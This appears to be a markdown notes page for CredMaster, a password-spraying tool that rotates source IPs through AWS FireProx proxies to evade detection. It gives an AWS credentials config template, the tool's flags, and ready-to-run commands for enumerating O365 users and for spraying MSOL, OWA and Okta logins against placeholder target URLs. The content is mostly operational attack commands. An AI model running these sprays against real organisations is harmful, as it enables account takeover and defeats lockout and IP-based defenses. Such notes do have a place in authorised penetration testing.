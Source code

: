 
# CredMaster
Init,
> "Launch a password spray / brute force attach via Amazon AWS passthrough proxies, shifting the requesting IP address for every authentication attempt. This dynamically creates FireProx APIs for more evasive password sprays."
> -GitHub
## Use
Needs an AWS key to spin up EC2 instances for the job. Put into `aws.config`.
```json
{
        "region" : "us-east-1",
        "access_key" : "",
        "secret_access_key" : "",
        "session_token" : null,
        "profile_name" : null                                           
}
```
### Flags
- `-u` username file
- `-t` threads
- `--plugin` plugin to use
- `--config` config file to use
- `-p` passwords file
- `-o` output file
- `-ua` user agents list to cycle thru
- `-t` throttling
- `-m` min jitter *has to be a higher number than `-j`*
- `-j` jitter
### Plugin Examples
#### O365 User Enum
```bash
python3 credmaster.py \
--plugin o365enum \
--config aws.config \
-u usernames.txt \
-t 8 
```
CredMaster will also create a `credmaster-validusers.txt` file with all of the valid usernames it finds with this command.
#### Spraying Plugin
```bash
python3 credmaster.py --plugin msol --config aws.config -u credmaster-validusers.txt -p passwords.txt -o 
```
#### MSOL
```bash
python3 credmaster.py -u "all_emails_v1.txt" \ 
-p pass.txt \ 
--plugin msol \ 
--config aws.config \ 
--color \ 
-o "credmaster-MSOL-out-3.txt" \ 
-t 5 -j 15 -m 10 \ 
-a ua.txt # list of user agent strings to use
```
#### o365enum
```bash
python3 credmaster.py -u "users.txt" \
--plugin o365enum \
--config aws.config \
--color \
-o "./o365-enum-out" \
-t 5 -j 15 -m 10 \ # jitter has to be higher than throttle
-a ua.txt
```
#### OWA Plugin Spray
**NOTE** use a url you've found on the target's actual domain.
```bash
python3 credmaster.py -u "/root/target/users.txt" \
-p pass.txt \
--plugin owa \
--url "https://target.mail.onmicrosoft.com" \
--config aws.config \
-o "/root/target/OWA-credmaster-out"
```
#### Okta
```bash 
python3 credmaster.py \
--plugin okta \
--config aws.config \
-u users.txt \
-p passwords.txt \
-o okta-out \
--url https://target.okta.com
```

> [!Resources]
> - [GitHub](https://github.com/knavesec/CredMaster)